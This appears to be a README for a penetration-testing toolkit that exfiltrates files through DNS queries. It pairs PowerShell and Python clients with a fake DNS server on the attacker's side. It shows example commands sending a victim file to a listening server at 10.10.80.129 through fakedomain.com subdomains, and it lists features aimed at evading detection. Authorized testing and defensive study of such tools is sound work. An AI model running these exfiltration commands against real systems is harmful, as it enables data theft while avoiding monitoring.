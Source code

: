 # DNS Exfil Tools

Simple penetration testing tools to execute file exfiltration through DNS and avoid common detection methods.

> Modules caption: \
:heavy_check_mark: Available \
:large_blue_circle: Under development \
:white_circle: To be developed

<br>

## Client Exfiltration
Deploy these tools on the target machine to exfiltrate files through DNS requests.
I'm still developing the client side for more than one programming language, to provide more compatibility with the system you are testing.

| Language | Available | Encryption |
| ------ | ------ | ------|
| python3      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| powershell   | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| python2      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| Compiled C++ | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |

### Powershell
Use the cmdlet `Get-Help` to get execution informations. You can use `Get-Help -detailed` to print a decent overview.
Here is an instance:
```
NAME
    C:\Users\User\Desktop\dnsexfil.ps1

SYNOPSIS
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine

SYNTAX
    C:\Users\User\Desktop\dnsexfil.ps1 [-Server] <String> [-Domain] <String> [-File] <String> [[-Timeout] <Single>]
    [[-Length] <Int32>] [-Hash] [<CommonParameters>]


DESCRIPTION
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine
    At leats three parameters are needed:
    - Specify DNS resolver as Server parameter
    - Specify filename
    - Specify the fake or legit domain you want to query
    The fakeDNS-server must be listening on your machine

PARAMETERS
    -Server <String>
        (Required) IP address of the listening DNS resolver

    -Domain <String>
        (Required) Fake or legit domain for DNS queries. Your fakeDNS-server will answer to both

    -File <String>
        (Required) Path to the file to exfiltrate through DNS queries

    -Timeout <Single>
        (Optional) Set a timeout between queries to slow down or speed up exfiltration. Default value is 2s

    -Length <Int32>
        (Optional) Set the third domain length. Default value is 16

    -Hash [<SwitchParameter>]
        (Optional) Include hash calculation in exfiltration for integrity purposes

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer, PipelineVariable, and OutVariable. For more information, see
        about_CommonParameters (https:/go.microsoft.com/fwlink/?LinkID=113216).

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt

Use 10.10.80.129 as the fakeDNS-server, and send the file C:\Users\Name\file.txt asking for resolution of
    [***].fakedomain.com:

    -------------------------- EXAMPLE 2 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt -Length 32 -Timeout 10 -Hash

Queries will be like [32-long-chunk].fakedomain.com and going out every 10 seconds:

    




```

### Features
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set timeout between DNS requests to slow down exfiltration and prevent detection |
| :heavy_check_mark:  | Set random timeout between requests to prevent periodically checks detection |
| :heavy_check_mark:  | Set fake domain or legit domain for DNS queries, the DNS server listening on your machine will respond to both |
| :heavy_check_mark:  | Set custom exfiltration third level domain chunks length |
| :heavy_check_mark:  | Optional: print server's response as record A resolution to verify queries |

### @todo
| | |
| ------ | ------ |
| :large_blue_circle: | Send filename as first action |
| :large_blue_circle: | Compress exfiltrating files to make the transfer faster |
| :large_blue_circle: | Optional: md5 file hash trasmission before file content for integrity checks|
| :white_circle:      | Optional: file encryption to prevent network sniffers to rebuild exfiltrated artifacts |
| :white_circle:      | Optional: Send multiple files at once |
| :white_circle:      | Optional: Send entire directory as compressed file |

<br>
<br>

## Fake DNS Server
Developed with Python3, the server module will provide a simple fake DNS server to get client's queries from your attacking machine, and responde with a spoofed IP of your choice (default is google.com's).

### Features
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set custom IP to spoof as record A response |
| :heavy_check_mark:  | Set custom domain for further automated file decode |
| :heavy_check_mark:  | Set custom UDP port for DNS service (default is 53) |

### @todo
| | |
| ------ | ------ | 
| :large_blue_circle: | Get filename from exfiltration first chunk |
| :large_blue_circle: | Optional: automated file decode/save |
| :large_blue_circle: | Compression receiving capabilities |
| :white_circle: | Optional: file decryption and save |

<br>
<br>

## Use case
### Attacker side (fake DNS server)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/fakeDNS-server3.gif)
### Victim side (exfiltration tool)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/dnsexfil3.gif)
